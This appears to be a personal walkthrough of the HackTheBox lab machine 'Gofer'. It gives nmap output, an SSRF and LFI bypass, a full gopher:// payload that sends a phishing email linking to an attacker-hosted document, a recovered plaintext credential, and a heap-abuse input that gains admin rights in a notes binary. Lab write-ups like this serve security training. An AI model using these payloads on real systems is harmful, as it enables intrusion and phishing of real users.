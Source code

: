 
## Recon

~~~
sudo nmap -sCV 10.10.11.225  -T4
~~~

~~~
┌──(mrg0d㉿GodsHome)-[~/Desktop]
└─$ sudo nmap -sCV 10.10.11.225  -T4
[sudo] password for mrg0d: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-31 10:13 IST
Nmap scan report for gofer.htb (10.10.11.225)
Host is up (0.26s latency).
Not shown: 995 closed tcp ports (reset)
PORT    STATE    SERVICE     VERSION
22/tcp  open     ssh         OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 aa25826eb804b6a9a95e1a91f09451dd (RSA)
|   256 1821baa7dce44f60d781039a5dc2e596 (ECDSA)
|_  256 a42d0d45132a9e7f867af6f778bc42d9 (ED25519)
25/tcp  filtered smtp
80/tcp  open     http        Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Gofer
139/tcp open     netbios-ssn Samba smbd 4.6.2
445/tcp open     netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2023-07-31T04:43:51
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.93 seconds
~~~

add gofer.htb to /etc/hosts

![[Pasted image 20230801195635.png]]

This is the Landing Page , i dont find anything Special..!!

More enumeration needed..!!!

Found subdomain `proxy.gofer.htb`

added `/etc/hosts`

![[Pasted image 20230802100520.png]]

There is Basic Auth..!!

I tried to bypass ...

Yes..~ i can By simply changing it to post , i can get response..!!

I ennumerated more there i found `index.php`

![[Pasted image 20230802100917.png]]

Says `missing URL parameter`

So , Then add url parameter..!!!

![[Pasted image 20230802101222.png]]
![[Pasted image 20230802101244.png]]

It worked..!!

Have to get rev shell from this ..!! I fixed..>

So  remember the machine name is : gopher..!!

Go with gopher protocol..!!

Also when i read index.php ..!!! i can bypass  , with that i got LFI..!!

![[Pasted image 20230802102651.png]]

For further..!! i found a tool gopherus..!!

It is gopher smtp , thing..!!

We can see smtp is filtered in nmap..!!

https://sirleeroyjenkins.medium.com/just-gopher-it-escalating-a-blind-ssrf-to-rce-for-15k-f5329a974530

Found this Blog..!!

Got stucked  at the stage..!! Asked my friends..!

It is Phishing message kindah think.

We have to send some phishing link via smtp (Mail)

~~~
gopher://2130706433:25/xHELO%20gofer.htb%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cjhudson@gofer.htb%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%20<a+href%3d'http%3a//10.10.14.86/l4tmur.odt>this</a>%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
~~~~

![[Pasted image 20230802104519.png]]








![[Pasted image 20230731205759.png]]

![[Pasted image 20230801015011.png]]

~~~
tbuckley:ooP4dietie3o_hquaeti
~~~

![[Pasted image 20230802104606.png]]

~~~
tbuckley@gofer:~/platon$ notes
========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 1

Choose an username: l4tmur

========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 3

========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 4

Write your note:
AAAAAAAAAAAAAAAAAAAAAAAAadmin
========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 2


Username: AAAAAAAAAAAAAAAAAAAAAAAAadmin
Role: admin

========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 8

Access granted!
client_loop: send disconnect: Broken pipe

~~~

![[Pasted image 20230802104936.png]]